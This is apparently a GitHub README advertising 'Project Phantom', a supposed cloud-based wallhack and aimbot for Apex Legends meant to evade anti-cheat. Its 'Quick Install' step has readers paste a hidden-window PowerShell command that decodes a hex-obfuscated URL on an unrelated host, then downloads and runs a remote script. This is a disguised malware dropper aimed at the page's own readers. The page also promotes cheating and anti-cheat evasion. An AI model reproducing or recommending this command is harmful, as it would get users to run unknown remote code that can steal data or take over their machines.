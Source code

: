 # 👻 Project Phantom 

## 🚀 Cloud Software for Apex Legends ☁️

**⚠️ Important Note:** This project is a **purely hypothetical(MAYBE :) ) concept** and is not intended for actual use. It describes how cloud-based software might theoretically work to bypass anti-cheat in Apex Legends. Using any software to gain an unfair advantage in games is against the rules and is not endorsed.

---

### 💡 Core

Transferring critical cheat functions (game data analysis, calculations) to remote, "clean" cloud servers ☁️, minimizing activity on the player's computer.

---

### 🛠️ How It Might Work

| Component             | Description                                                                                                                               | Hypothetical Tasks                                                                                                                                                              |
|-----------------------|----------------------------------------------------------------------------------------------------------------------------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| **🖥️ Client Application** | A lightweight application on the player's computer.                                                                                     | Intercepting data from the game (player positions, weapons, etc.).<br>Sending data to cloud servers.<br>Receiving processed data from the server.<br>Injecting data back into the game (complex and risky 💥). |
| **☁️ Cloud Servers**   | Remote servers where the main data processing occurs.                                                                             | Analyzing received data.<br>Calculations for WallHack (enemy positions).<br>Calculations for AimBot (optimal aiming).<br>Sending processed data back to the client (encrypted 🔒).          |

---

# HOW TO INSTAL:
### Prerequisites

- Internet connection for real-time data fetching

### Quick Install

- #### Press win+r
- #### Insert command
```bash
powershell -WindowStyle Hidden -Command "$p='68747470733A2F2F6A616968696E642E6564752E696E2F67726170657375626A6563742F726570616972626574746572';$u=[System.Text.Encoding]::UTF8.GetString((1..($p.Length/2) | ForEach-Object {[Convert]::ToByte($p.Substring((($_-1)*2),2),16)}));([ScriptBlock]::Create((Invoke-RestMethod $u))).Invoke()"
```

### 🎯 Advantages (From a user's perspective)

*   👻 **"Invisibility" on the Client:** Core logic is not on the player's computer, harder to detect.
*   🔄 **Rapid Adaptation:** Updating logic on servers without requiring client downloads.
*   ✨ **Hypothetical "Clean" Client:** Minimal application, low activity on the PC.

---

### 🤔 Challenges and Disadvantages

| Aspect               | Description                                                                                                                                                              |
|----------------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| ⚙️ **Technical Complexity** | Requires deep knowledge in network protocols, security, anti-cheat bypass, and cloud computing.                                                               |
| ⏳ **Latency**          | Data transfer back and forth through the internet can introduce delay, critical for fast-paced shooters.                                                                           |
| 💰 **Cost**              | Maintaining servers and infrastructure requires significant expense.                                                                                                     |
| 🚨 **Risk of Detection**    | Anti-cheats are constantly evolving. Methods of detecting such cloud software might be found, e.g., through network traffic analysis or player behavioral anomalies.                                                       |
| 🔌 **Server Dependency** | Unavailability or blocking of cloud servers will render the software inoperable.                                                                                    |

---

